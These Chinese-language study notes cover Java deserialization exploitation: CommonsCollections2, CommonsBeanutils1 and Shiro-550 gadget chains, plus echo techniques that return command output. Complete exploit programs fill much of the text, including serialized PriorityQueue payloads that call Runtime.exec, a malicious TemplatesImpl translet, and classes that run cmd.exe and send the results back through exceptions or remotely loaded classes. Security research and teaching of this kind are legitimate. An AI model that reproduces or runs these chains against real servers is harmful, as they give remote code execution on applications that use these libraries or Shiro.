- 替换到前⾯的demo中，也能成功触发，避免了使⽤InvokerTransformer：

- ysoserial的cc3使用的是AnnotationInvocationHandler+LazyMap的组合，所以也有CommonsCollections1⼀样的问题，就是只⽀持Java 8u71及以下版本。

**总结**：

- **我们可以用cc6的方法来改造cc3，使其支持高版本jdk。**

#### commons-collections4.0版本—cc2，cc4

- **在4.0中3.0的链子同样可以用，还有新的链子出来。**

- Apache Commons Collections是⼀个著名的辅助开发库，包含了⼀些Java中没有的数据结构和和辅助 ⽅法，不过随着Java 9以后的版本中原⽣库功能的丰富，以及反序列化漏洞的影响，它也在逐渐被升级或替代。 
- 在2015年底commons-collections反序列化利⽤链被提出时，Apache Commons Collections有以下两 个分⽀版本： 
    - `commons-collections:commons-collections` 
    - `org.apache.commons:commons-collections4` 
- 可⻅，groupId和artifactId都变了。前者是Commons Collections⽼的版本包，当时版本号是3.2.1；后 者是官⽅在2013年推出的4版本，当时版本号是4.0。
- 那么为什么会分成两个不同的分⽀呢？
    -  官⽅认为旧的commons-collections有⼀些架构和API设计上的问题，但修复这些问题，会产⽣⼤量不能 向前兼容的改动。
    - 所以，**commons-collections4不再认为是⼀个⽤来替换commons-collections的新版本，⽽是⼀个新的包**，两者的命名空间不冲突，因此可以共存在同⼀个项⽬中。
- 那么很自然有个问题，**既然3.2.1中存在反序列化利⽤链，那么4.0版本是否存在呢？**

**commons-collections4的改动**

- 为了探索这个问题，我们需要先搞清楚⼀点，⽼的利⽤链在commons-collections4中是否仍然能使⽤？ 幸运的是，因为这⼆者可以共存，所以我可以将两个包安装到同⼀个项⽬中进⾏⽐较

    - ```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
        
        ```

- 然后，因为⽼的Gadget中依赖的包名都是 `org.apache.commons.collections` ，⽽新的包名已经变 了，是 `org.apache.commons.collections4` 。 我们⽤已经熟悉的CommonsCollections6利⽤链做个例⼦，我们直接把代码拷⻉⼀遍，然后将所 有 `import org.apache.commons.collections.*` 改成 `import org.apache.commons.collections4.*` 

- 此时IDE爆出了⼀个错误，原因是 LazyMap.decorate 这个⽅法没了：

    - 我们看下3中decorate的定义，⾮常简单：

        - ```java
            public static Map decorate(Map map, Transformer factory) {
             return new LazyMap(map, factory);
            }
            ```

        - 这个方法不过就是LazyMap构造函数的⼀个包装，

    - ⽽在4中这个方法其实只是改了个名字叫 lazyMap ：

        - ```java
            public static <V, K> LazyMap<K, V> lazyMap(final Map<K, V> map, final
            Transformer<? super K, ? extends V> factory) {
             return new LazyMap<K,V>(map, factory);
            }
            ```

    - 所以，我们将Gadget中出错的代码换⼀下名字：

        - ```java
            Map outerMap = LazyMap.lazyMap(innerMap, transformerChain);
            ```

- **解决了错误，我们运⾏⼀下，成功弹出计算器：**

- **同理，可以试⼀下之前看过的CommonsCollections1、CommonsCollections3，都可以在commonscollections4中正常使用。**

- 除了⽼的⼏个利⽤链，ysoserial还为commons-collections4准备了两条新的利⽤链，那就是 CommonsCollections2和CommonsCollections4。

-  **commons-collections这个包之所有能攒出那么多利⽤链来，除了因为其使⽤量⼤，技术上的原因是其 中包含了⼀些可以执行任意方法的Transformer**。所以，在commons-collections中找Gadget的过 程，实际上可以简化为，找⼀条从 `Serializable#readObject()` ⽅法到 `Transformer#transform()` ⽅法的调⽤链。

#### cc2—PriorityQueue—TransformingComparator

- 有了这个认识，我们再来看CommonsCollections2，其中⽤到的两个关键类是：

    - source: `java.util.PriorityQueue` 
    - Gadge: `org.apache.commons.collections4.comparators.TransformingComparator` 

- 这两个类有什么特点？ 

    - java.util.PriorityQueue 是⼀个有自己 readObject() ⽅法的类：

        - ```java
                /**
                 * Reconstitutes the {@code PriorityQueue} instance from a stream
                 * (that is, deserializes it).
                 *
                 * @param s the stream
                 */
                private void readObject(java.io.ObjectInputStream s)
                    throws java.io.IOException, ClassNotFoundException {
                    // Read in size, and any hidden stuff
                    s.defaultReadObject();
            
                    // Read in (and discard) array length
                    s.readInt();
            
                    queue = new Object[size];
            
                    // Read in all elements.
                    for (int i = 0; i < size; i++)
                        queue[i] = s.readObject();
            
                    // Elements are guaranteed to be in "proper order", but the
                    // spec has never explained what that might be.
                    heapify();
                }
            
            ```

    - `org.apache.commons.collections4.comparators.TransformingComparator` 中有调 ⽤ transform() ⽅法的函数

        - ```java
                public int compare(I obj1, I obj2) {
                    O value1 = this.transformer.transform(obj1);
                    O value2 = this.transformer.transform(obj2);
                    return this.decorated.compare(value1, value2);
                }
            ```

        - 这里比较的两个对象都经过了transfom函数，所以rce会执行两次

    - 所以，CommonsCollections2实际就是⼀条从 PriorityQueue 到 TransformingComparator 的利⽤ 链。 看⼀下他们是怎么连接起来的。 PriorityQueue#readObject() 中调⽤了 `heapify()` ⽅ 法， heapify() 中调⽤了 `siftDown()` ， siftDown() 中调⽤了 siftDownUsingComparator() ， siftDownUsingComparator() 中调⽤的 `comparator.compare()` ，于是就连接到上⾯的 TransformingComparator 了：

    - 整个调⽤关系⽐较简单，调试时间不会超过5分钟。 

    - 总结⼀下：

        - java.util.PriorityQueue 是⼀个优先队列（Queue），基于⼆叉堆实现，队列中每⼀个元素有 ⾃⼰的优先级，节点之间按照优先级⼤⼩排序成⼀棵树 
        - 反序列化时为什么需要调⽤ heapify() 方法？为了反序列化后，需要恢复（换⾔之，保证）这个结构的顺序 ，会进行重排序的操作，而排序就涉 及到大小比较。
        - 排序是靠将⼤的元素下移实现的。 siftDown() 是将节点下移的函数， ⽽ comparator.compare() ⽤来⽐较两个元素大小。
        - TransformingComparator 实现了 java.util.Comparator 接⼝，这个接⼝⽤于定义两个对象如 何进⾏⽐较。 siftDownUsingComparator() 中就使⽤这个接⼝的 compare() ⽅法⽐较树的节 点。 

    - 关于 PriorityQueue 这个数据结构的具体原理，可以参考这篇⽂章：https://www.cnblogs.com/lingh u-java/p/9467805.html 按照这个思路开始编写POC吧。 

- ⾸先，还是创建Transformer，标准操作：

    - ```java
        Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        //创建一个fake利用链，最后的时候把这个利用链换成上面的
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer transformedChain = new ChainedTransformer(fakeTransformers);  //实例化一个反射链
        
        ```

- 再创建⼀个 TransformingComparator ，传⼊我们的Transformer：

    - ```java
        Comparator comparator = new TransformingComparator(transformedChain);
        ```

- 实例化 PriorityQueue 对象，第⼀个参数是初始化时的⼤⼩，⾄少需要2个元素才会触发排序和⽐较， 所以是2；第⼆个参数是⽐较时的Comparator，传⼊前⾯实例化的comparator

    - ```java
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);
        ```

- 后⾯随便添加了2个数字进去，这⾥可以传⼊⾮null的任意对象，因为我们的Transformer是忽略传⼊参 数的。 最后，将真正的恶意Transformer设置上，原因不⽤多说：

    - ```java
        setFieldValue(transformerChain, "iTransformers", transformers)
        ```

- 完整的poc

    - ```
        package cc;
        
        import org.apache.commons.collections4.Transformer;
        import org.apache.commons.collections4.comparators.TransformingComparator;
        import org.apache.commons.collections4.functors.ChainedTransformer;
        import org.apache.commons.collections4.functors.ConstantTransformer;
        import org.apache.commons.collections4.functors.InvokerTransformer;
        
        import java.io.*;
        import java.lang.reflect.Field;
        import java.util.Comparator;
        import java.util.PriorityQueue;
        
        public class CC2 {
            public static void main(String[] args) throws IllegalAccessException, NoSuchFieldException, IOException, ClassNotFoundException {
                Transformer[] transformers = new Transformer[] {
                        new ConstantTransformer(Runtime.class),
                        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                        new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
                };
                //创建一个fake利用链，最后的时候把这个利用链换成上面的
                Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
                Transformer transformedChain = new ChainedTransformer(fakeTransformers);  //实例化一个反射链
        
                //再创建⼀个 TransformingComparator ，传⼊我们的Transformer：
                Comparator comparator = new TransformingComparator(transformedChain);
        
                PriorityQueue queue = new PriorityQueue(2, comparator);
                queue.add(1);
                queue.add(2);
        
                // 将真正的transformers数组设置进来
                Field fd = org.apache.commons.collections4.functors.ChainedTransformer.class.getDeclaredField("iTransformers");
                fd.setAccessible(true);
                fd.set(transformedChain, transformers);
        
                FileOutputStream f = new FileOutputStream("./test.txt");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(queue);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
                //开始反序列化test.txt文件
                Unser();
            }
        
            public static void Unser() throws IOException,ClassNotFoundException{
                FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
                ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
                CC6.User u= (CC6.User) ins.readObject();   //反序列化
                System.out.println("反序列化成功！");
                ins.close();
            }
            class User {
            }
        }
        
        
        ```

    - 弹了两次计算器。

- **PriorityQueue的利⽤链是否⽀持在commons-collections 3中使⽤？**

    - 不能。因为这条利⽤链中的关键 ，类`org.apache.commons.collections4.comparators.TransformingComparator` ，在commonscollections4.0以前是版本中是没有实现 Serializable 接⼝的，⽆法在序列化中使⽤。

#### cc反序列化官方修复方法

- Apache Commons Collections官⽅在2015年底得知序列化相关的问题后，就在两个分⽀ 上同时发布了新的版本，4.1和3.2.2。 

- 先看3.2.2，

    - 通过[diff](https://github.com/apache/commons-collections/compare/collections-3.2.1...collections-3.2.2%23diff-560c8d37c3de3c3843f9a09ffac4e1be3e4e97ad48d3da02d767087860bb4f8d)可以发现，新版代码中增加了⼀个⽅法 FunctorUtils#checkUnsafeSerialization ，⽤于检测反序列化是否安全。如果开发者没有设置全 局配置 `org.apache.commons.collections.enableUnsafeSerialization=true` ，即默认情况下会 抛出异常。 

        - ```
            Serialization support for org.apache.commons.collections.functors.InvokerTransformer is
            disabled for security reasons. To enable it set system property
            'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure
            that your application does not de-serialize objects from untrusted source
            ```

    - 这个检查在常⻅的危险Transformer类 （ InstantiateTransformer 、 InvokerTransformer 、 PrototypeFactory 、 CloneTransformer 等）的 readObject ⾥进⾏调⽤，所以，当我们反序列化包含这些对象时就会抛出⼀个异常。

- 再看4.1，修复⽅式⼜不⼀样。

    - 4.1⾥，这⼏个危险Transformer类不再实现 Serializable 接⼝，也就 是说，他们⼏个彻底⽆法序列化和反序列化了。更绝

- **我们是否还能找到其他可以利用的 java.util.Comparator 对象呢？**

#### Apache Commons Beanutils —非cc链

> 与cc2的区别是sink并没用cc链，而是用了cb链

commons-beanutils依赖于commons-collections

**了解Apache Commons Beanutils**

- Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目，它提供了对普通Java类对 象（也称为JavaBean）的一些操作方法。 

- 关于JavaBean的说明可以参考[这篇文章](https://www.liaoxuefeng.com/wiki/1252599548343744/1260474416351680)。比如，Cat是一个最简单的JavaBean类：

    -   ```java
          final public class Cat {
              private String name = "catalina";
              public String getName() {
              	return name;
              }
              public void setName(String name) {
                  this.name = name;
              }
          }
        ```

- 它包含一个私有属性name，和读取和设置这个属性的两个方法，又称为getter和setter。其中，getter 的方法名以get开头，setter的方法名以set开头，全名符合骆驼式命名法（Camel-Case）。

-  commons-beanutils中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任 意JavaBean的getter方法，比如：

    - ```java
        PropertyUtils.getProperty(new Cat(), "name");
        ```

- 此时，commons-beanutils会自动找到name属性的getter方法，也就是 getName ，然后调用，获得返 回值。除此之外， PropertyUtils.getProperty 还支持递归获取属性，比如a对象中有属性b，b对象 中有属性c，我们可以通过 PropertyUtils.getProperty(a, "b.c"); 的方式进行递归获取。通过这个 方法，使用者可以很方便地调用任意对象的getter，适用于在不确定JavaBean是哪个类对象时使用。 

- 当然，commons-beanutils中诸如此类的辅助方法还有很多，如调用setter、拷贝属性等，本文不再细 说。

**getter的妙用**

- 回到本文主题，我们需要找可以利用的 java.util.Comparator 对象，在commons-beanutils包中就存 在一个： `org.apache.commons.beanutils.BeanComparator` 。

- BeanComparator 是commons-beanutils提供的用来比较两个JavaBean是否相等的类，其实现了 java.util.Comparator 接口。我们看它的compare方法：

    - ```java
        public int compare( final T o1, final T o2 ) {
            if ( property == null ) {
                // compare the actual objects
                return internalCompare( o1, o2 );
            }
            try {
                final Object value1 = PropertyUtils.getProperty( o1, property );
                final Object value2 = PropertyUtils.getProperty( o2, property );
                return internalCompare( value1, value2 );
            }
            catch ( final IllegalAccessException iae ) {
                throw new RuntimeException( "IllegalAccessException: " +
                iae.toString() );
            }
            catch ( final InvocationTargetException ite ) {
                throw new RuntimeException( "InvocationTargetException: " +
                ite.toString() );
            }
            catch ( final NoSuchMethodException nsme ) {
                throw new RuntimeException( "NoSuchMethodException: " +
                nsme.toString() );
            }
        }
        
        ```

- 这个方法传入两个对象，如果 this.property 为空，则直接比较这两个对象；如果 this.property 不 为空，则用 PropertyUtils.getProperty 分别取这两个对象的 this.property 属性，比较属性的值。 上一节我们说了， PropertyUtils.getProperty 这个方法会自动去调用一个JavaBean的getter方法， 这个点是任意代码执行的关键。有没有什么getter方法可以执行恶意代码呢？

-  此时回到《Java安全漫谈》第13章，其中在追踪分析 TemplatesImpl 时，有过这么一段描述：

    - ```java'
        我们从 TransletClassLoader#defineClass() 向前追溯一下调用链：
        TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() ->
        TemplatesImpl#getTransletInstance() ->
        TemplatesImpl#defineTransletClasses() ->
        TransletClassLoader#defineClass()
        ```

- 看到这个 `TemplatesImpl#getOutputProperties()` 了吗？这个 getOutputProperties() 方法是调用 链上的一环，它的内部调用了 `TemplatesImpl#newTransformer()` ，也就是我们后面常用来执行恶意 字节码的方法：

    - ```java
        public synchronized Properties getOutputProperties() {
            try {
            	return newTransformer().getOutputProperties();
            }
            catch (TransformerConfigurationException e) {
            	return null;
            }
        }
        ```

- 而 getOutputProperties 这个名字，是以 get 开头，正符合getter的定义。 所以， PropertyUtils.getProperty( o1, property ) 这段代码，**当o1是一个 TemplatesImpl 对 象，而 property 的值为 outputProperties 时，将会自动调用getter**，也就是 TemplatesImpl#getOutputProperties() 方法，触发代码执行。

**反序列化利用链构造**:

- Evil.java

    - ```java
        package cc;
        
        import com.sun.org.apache.xalan.internal.xsltc.DOM;
        import com.sun.org.apache.xalan.internal.xsltc.TransletException;
        import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
        import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
        import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
        
        import java.io.IOException;
        
        public class Evil extends AbstractTranslet {
            static {
                try {
                    Runtime.getRuntime().exec("calc");
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        
        
            @Override
            public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
        
            }
        
            @Override
            public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
        
            }
        }
        
        ```

- 首先还是创建TemplateImpl：

    - ```java
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(cc.Evil.class.getName());
        
        byte[] code = clazz.toBytecode();
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ```

- 然后，我们实例化本篇讲的 BeanComparator 。 BeanComparator 构造函数为空时，默认的 property 就是空：

    - ```java
        final BeanComparator comparator = new BeanComparator();
        ```

- 然后用这个comparator实例化优先队列 PriorityQueue ：

    - ```java
        //初始化队列
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(1);
        queue.add(1);
        ```

- 可见，我们添加了两个无害的可以比较的对象进队列中。前文说过， `BeanComparator#compare()` 中， 如果 this.property 为空，则直接比较这两个对象。这里实际上就是对两个 1 进行排序。 初始化时使用正经对象，且 property 为空，这一系列操作是为了初始化的时候不要出错。

- **然后，我们再用反射将 property 的值设置成恶意的 outputProperties** ，将队列里的1个1替换成恶意的 TemplateImpl 对象：

    - ```
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});
        ```

- 最后完成整个CommonsBeanutils1利用链：

    - ```
        package cc;
        
        import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
        import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
        import javassist.CannotCompileException;
        import javassist.ClassPool;
        import javassist.CtClass;
        import javassist.NotFoundException;
        import org.apache.commons.beanutils.BeanComparator;
        
        import java.io.*;
        import java.lang.reflect.Field;
        import java.util.PriorityQueue;
        
        public class CB {
            public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
                Field field = obj.getClass().getDeclaredField(fieldName);
                field.setAccessible(true);
                field.set(obj, value);
            }
            public static void main(String[] args) throws Exception {
                ClassPool pool = ClassPool.getDefault();
                CtClass clazz = pool.get(cc.Evil.class.getName());
        
                byte[] code = clazz.toBytecode();
                TemplatesImpl obj = new TemplatesImpl();
                setFieldValue(obj, "_bytecodes", new byte[][] {code});
                setFieldValue(obj, "_name", "HelloTemplatesImpl");
                setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        
                //初始化比较器
                final BeanComparator comparator = new BeanComparator();
        
                //初始化队列
                final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
                // stub data for replacement later
                queue.add(1);
                queue.add(1);
        
                setFieldValue(comparator, "property", "outputProperties");
                setFieldValue(queue, "queue", new Object[]{obj, obj});
        
                FileOutputStream f = new FileOutputStream("./test.txt");
                ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
                out.writeObject(queue);  //将我们构造的 AnnotationInvocationHandler类进行序列化
                out.flush();
                out.close();
                //开始反序列化test.txt文件
                Unser();
            }
        
            public static void Unser() throws IOException,ClassNotFoundException{
                FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
                ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
                CC6.User u= (CC6.User) ins.readObject();   //反序列化
                System.out.println("反序列化成功！");
                ins.close();
            }
            class User {
            }
        }
        
        
        ```

    - 同样弹两次计算器，可以只设置一个对象为TemplatesImpl对象，另外设置一个可序列化的对象即可

##### **Shiro-550利用的难点**

- 还记得Shiro反序列化漏洞吗？我们用IDE打开之前我写的Shiro最简单的例子shirodemo。

- 这个 demo中添加了几个依赖库： 

    1. shiro-core、shiro-web，这是shiro本身的依赖 
    2.  javax.servlet-api、jsp-api，这是JSP和Servlet的依赖，仅在编译阶段使用，因为Tomcat中自带这 两个依赖 
    3.  slf4j-api、slf4j-simple，这是为了显示shiro中的报错信息添加的依赖
    4.  commons-logging，这是shiro中用到的一个接口，不添加会爆 java.lang.ClassNotFoundException: org.apache.commons.logging.LogFactory 错误 
    5. commons-collections，为了演示反序列化漏洞，增加了commons-collections依赖 

- 前4个依赖都和项目本身有关，少了他们这个demo会出错或功能缺失。但是第5个依赖，commonscollections主要是为了演示漏洞。

- 那么，实际场景下，目标可能并没有安装commons-collections，这 个时候shiro反序列化漏洞是否仍然可以利用呢？ 我们将pom.xml中关于commons-collections的部分删除，重新加载Maven，此时观察IDEA中的依赖 库

    - 

- commons-beanutils赫然在列。 也就是说，Shiro是依赖于commons-beanutils的。那么，是否可以用到本文讲的CommonsBeanutils1 利用链呢？ 尝试生成一个Payload发送，并没有成功，此时在Tomcat的控制台可以看到报错信息：

    - ```
        org.apache.commons.beanutils.BeanComparator; local class incompatible: stream classdesc
        serialVersionUID = -2044202215314119608, local class serialVersionUID =
        -3490850999041592962
        ```

- 这个错误是什么意思？

serialVersionUID是什么？

- 如果两个不同版本的库使用了同一个类，而这两个类可能有一些方法和属性有了变化，此时在序列化通 信的时候就可能因为不兼容导致出现隐患。

- 因此，Java在反序列化的时候提供了一个机制，序列化时会 根据固定算法计算出一个当前类的 serialVersionUID 值，写入数据流中；反序列化时，如果发现对方 的环境中这个类计算出的 serialVersionUID 不同，则反序列化就会异常退出，避免后续的未知隐患。 

- 当然，开发者也可以手工给类赋予一个 serialVersionUID 值，此时就能手工控制兼容性了。 

- 所以，出现错误的原因就是，本地使用的commons-beanutils是1.9.2版本，而Shiro中自带的 commons-beanutils是1.8.3版本，出现了 serialVersionUID 对应不上的问题。 

- 解决方法也比较简单，将本地的commons-beanutils也换成1.8.3版本。 更换版本后，再次生成Payload进行测试，此时Tomcat端爆出了另一个异常，仍然没有触发代码执行：

    - ```java
        Unable to load class named
        [org.apache.commons.collections.comparators.ComparableComparator]
        ```

- 简单来说就是没找到 `org.apache.commons.collections.comparators.ComparableComparator` 类，从包名即可看出，这个类是来自于commons-collections。 

- commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽 然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于 commons-collections，但反序列化利用的时候需要依赖于commons-collections。 难道没有commons-collections就无法进行反序列化利用吗？当然有。

**无依赖的Shiro反序列化利用链**

- 我们先来看看 `org.apache.commons.collections.comparators.ComparableComparator` 这个类在 哪里使用了
- 在 BeanComparator 类的构造函数处，当没有显式传入 Comparator 的情况下，则默认使用 ComparableComparator 。 既然此时没有 ComparableComparator ，我们需要找到一个类来替换，它满足下面这几个条件：
    -  实现 java.util.Comparator 接口 
    - 实现 java.io.Serializable 接口 
    - Java、shiro或commons-beanutils自带，且兼容性强 通过IDEA的功能，我们找到一个 CaseInsensitiveComparator ：

通过IDEA的功能，我们找到一个 CaseInsensitiveComparator ：

- 

相关代码如下：

- ```java
       public static final Comparator<String> CASE_INSENSITIVE_ORDER
                                             = new CaseInsensitiveComparator();
        private static class CaseInsensitiveComparator
                implements Comparator<String>, java.io.Serializable {
            // use serialVersionUID from JDK 1.2.2 for interoperability
            private static final long serialVersionUID = 8575799808933029326L;
    
            public int compare(String s1, String s2) {
                int n1 = s1.length();
                int n2 = s2.length();
                int min = Math.min(n1, n2);
                for (int i = 0; i < min; i++) {
                    char c1 = s1.charAt(i);
                    char c2 = s2.charAt(i);
                    if (c1 != c2) {
                        c1 = Character.toUpperCase(c1);
                        c2 = Character.toUpperCase(c2);
                        if (c1 != c2) {
                            c1 = Character.toLowerCase(c1);
                            c2 = Character.toLowerCase(c2);
                            if (c1 != c2) {
                                // No overflow because of numeric promotion
                                return c1 - c2;
                            }
                        }
                    }
                }
                return n1 - n2;
            }
    
   ```

- 这个 CaseInsensitiveComparator 类是 java.lang.String 类下的一个内部私有类，其实现了 Comparator 和 Serializable ，且位于Java的核心代码中，兼容性强，是一个完美替代品。 

- 我们通过 `String.CASE_INSENSITIVE_ORDER` 即可拿到上下文中的 CaseInsensitiveComparator 对 象，用它来实例化 BeanComparator ：

    - ```java
        final BeanComparator comparator = new BeanComparator(null,
        String.CASE_INSENSITIVE_ORDER);
        ```

- 最后，构造出新的CommonsBeanutils1Shiro利用链：

#### 原生反序列化利用链 JDK7u21

- 没有合适的第三方库存在时，Java反序列化是否还能利用?
- 这是一件幸运又不幸的事情，幸运的是，的确存在不依赖第三方库的Java反序列 化利用链，不幸的是，新的Java版本没有这样的问题。 这条利用链就是JDK7u21，顾名思义，它适用于Java 7u21及以前的版本。
- 所以，在阅读并复现本文章前，需要先安装Java 7u21，并在项目中将版本设置为7u21。

#### 原生反序列化链 jdk8u20

- 

### 反序列化漏洞回显与内存马：

> https://www.cnblogs.com/nice0e3/p/14945707.html#defineclass%E5%BC%82%E5%B8%B8%E5%9B%9E%E6%98%BE

- 一般我们要想命令执行回显有以下几种方式
    - **defineClass**
    - **RMI绑定实例**
    - **URLClassLoader抛出异常**
    - **中间件**
    - **写文件css、js**
    - **dnslog**

#### **defineClass异常回显**

- 上面讲过defineClass是用来动态加载字节码的

- 我们通过将命令执行的结果抛出异常来回显，这需要服务器将异常输出到页面上。

- 先定义一个抛出异常的恶意类

    - ```java
        package cc;
        
        import java.io.BufferedReader;
        import java.io.InputStream;
        import java.io.InputStreamReader;
        import java.nio.charset.Charset;
        
        public class DefineClassExceptionShow {
            public DefineClassExceptionShow(String cmd) throws Exception {
                InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
                InputStreamReader streamReader = new InputStreamReader(stream, Charset.forName("gbk"));
                BufferedReader bufferedReader = new BufferedReader(streamReader);
                StringBuffer buffer = new StringBuffer();
                String line = null;
                while ((line = bufferedReader.readLine()) != null) {
                    buffer.append(line).append("\n");
                }
                throw new Exception(buffer.toString());
        
            }
            }
        }
        
        ```

- 回显代码

    - ```java
        package cc;
        
        import javassist.CannotCompileException;
        import javassist.ClassPool;
        import javassist.CtClass;
        import javassist.NotFoundException;
        
        import java.io.IOException;
        
        public class DefineClassExceptionShowClassLoader extends ClassLoader {
        
            private static byte[] ClassBytes;
            @Override
            protected Class<?> findClass(String name) throws ClassNotFoundException {
        
                    ClassPool pool = ClassPool.getDefault();
                    CtClass clazz = null;
                    try {
                        clazz = pool.get(DefineClassExceptionShow.class.getName());
                    } catch (NotFoundException e) {
                        throw new RuntimeException(e);
                    }
                    try {
                        ClassBytes = clazz.toBytecode();
                    } catch (IOException e) {
                        throw new RuntimeException(e);
                    } catch (CannotCompileException e) {
                        throw new RuntimeException(e);
                    }
                    return defineClass(null, ClassBytes, 0, ClassBytes.length);
                }
        
        
            public static void main(String[] args) {
                DefineClassExceptionShowClassLoader loader = new DefineClassExceptionShowClassLoader();
                try {
        
                    Class testClass = loader.loadClass("");
                    testClass.getConstructor(String.class).newInstance("ipconfig");
        
                    
        
                } catch (Exception e) {
                    e.printStackTrace();
        
                }
            }
        }
        ```


#### URLClassLoader抛出异常

- 和defineClass异常回显一样，恶意类会把命令执行结果抛出异常。一旦字节码类初始化就会显示异常。

- 异常类

    - ```java
        
        import java.io.BufferedReader;
        import java.io.InputStream;
        import java.io.InputStreamReader;
        import java.nio.charset.Charset;
        
        public class DefineClassExceptionShow {
            public DefineClassExceptionShow(String cmd) throws Exception {
                InputStream stream = (new ProcessBuilder(new String[]{"cmd.exe", "/c", cmd})).start().getInputStream();
                InputStreamReader streamReader = new InputStreamReader(stream, Charset.forName("gbk"));
                BufferedReader bufferedReader = new BufferedReader(streamReader);
                StringBuffer buffer = new StringBuffer();
                String line = null;
                while ((line = bufferedReader.readLine()) != null) {
                    buffer.append(line).append("\n");
                }
                throw new Exception(buffer.toString());
        
            }
            }
        ```

- 将上面的异常类Javac编译好，放到vps上面。

- 恶意类

    -  ```java
         import java.lang.reflect.Constructor;
         import java.lang.reflect.InvocationTargetException;
         import java.net.MalformedURLException;
         import java.net.URL;
         import java.net.URLClassLoader;
         
         public class URLClassLoaderExceptionShow {
             public static void main(String[] args) throws MalformedURLException, ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException, InvocationTargetException {
                 URL[] urls = {new URL("http://localhost:8000/")};
                 URLClassLoader loader = URLClassLoader.newInstance(urls);
                 Constructor<?> c = loader.loadClass("DefineClassExceptionShow").getConstructor(String.class);
         
                 c.newInstance("ipconfig");
         
             }
         }
         ```


#### RMI绑定实例

- 要调用的远程方法的接口，需要客户端，服务器端都要有这个代码。
    - 需要寻找一个实现`Remote`的接口，也就是寻找RMI的实现接口。方法的返回类型应该为String，并且方法必须抛出`java.rmi.RemoteException` 异常。
- 服务器实现这个接口,并且提供rmi服务
- weblogic下的rmi绑定实例
- 待补充

#### linux下文件操作符回显

- [《linux下java反序列化通杀回显方法的低配版实现》](https://xz.aliyun.com/t/7307) 将回显结果写入文件操作符

#### 中间件回显

> https://www.cnblogs.com/nice0e3/p/14891711.html
>

- 只要能拿到`request，Response`对象即可进行回显的构造，当然这也是众多方式的一种。也是目前用的较多的方式。

- 但是很多框架对于Serlvet进行了封装，不同框架实现不同，同一框架的不同版本实现也可能不同，因此我们无法利用一种简单通用的方法去获取当前请求的response。
- `request，response`的关键点是**寻找当前运行代码（一次http请求中的环境）的上下文环境与Tomcat运行上下文环境之间的联系**。

- **中间件而言多数重写了thread类，在thread中保存了req和resp，可以通过获取当前线程，在resp中写入回显结果**

不再赘述了，具体实现文章都有了。值得一提的思路可能就是反序列化不仅仅可以回显，也可以配合反射和字节码动态生成内存马

##### Tomcat通用回显

> 不同tomcat版本还有差别,不过有通杀poc
>

其他的一些Tomcat回显分析：

- [《基于全局储存的新思路 | Tomcat的一种通用回显方法研究》](https://mp.weixin.qq.com/s?__biz=MzIwNDA2NDk5OQ==&mid=2651374294&idx=3&sn=82d050ca7268bdb7bcf7ff7ff293d7b3) 通过Thread.currentThread.getContextClassLoader() 拿到request、response回显 tomcat7中获取不到StandardContext
- [《tomcat不出网回显连续剧第六集》](https://xz.aliyun.com/t/7535) 直接从Register拿到process对应的req

tomcat通杀poc：

- https://www.anquanke.com/post/id/256966

###### 寻找Request/Response：

- 我们先看看Tomcat中哪个类会存储Request以及Response。
